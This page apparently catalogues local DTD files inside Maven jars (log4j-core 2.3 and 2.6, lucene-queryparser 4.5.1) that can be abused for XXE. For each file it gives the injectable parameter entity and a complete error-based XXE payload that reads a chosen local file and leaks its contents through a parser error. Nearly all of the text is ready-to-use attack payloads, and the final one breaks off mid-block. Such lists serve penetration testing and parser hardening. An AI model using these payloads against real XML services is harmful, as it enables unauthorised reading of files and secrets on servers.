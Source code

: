 **Injectable entity:** `%documentElementAttributes`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/logging/log4j/log4j-core/2.3/log4j-core-2.3.jar!/Log4j-events.dtd">

    <!ENTITY % documentElementAttributes '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/logging/log4j/log4j-core/2.6/log4j-core-2.6.jar!/Log4j-events.dtd`

**Injectable entity:** `%documentElementAttributes`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/logging/log4j/log4j-core/2.6/log4j-core-2.6.jar!/Log4j-events.dtd">

    <!ENTITY % documentElementAttributes '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/4.5.1/lucene-queryparser-4.5.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd`

**Injectable entity:** `%queries`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/4.5.1/lucene-queryparser-4.5.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

```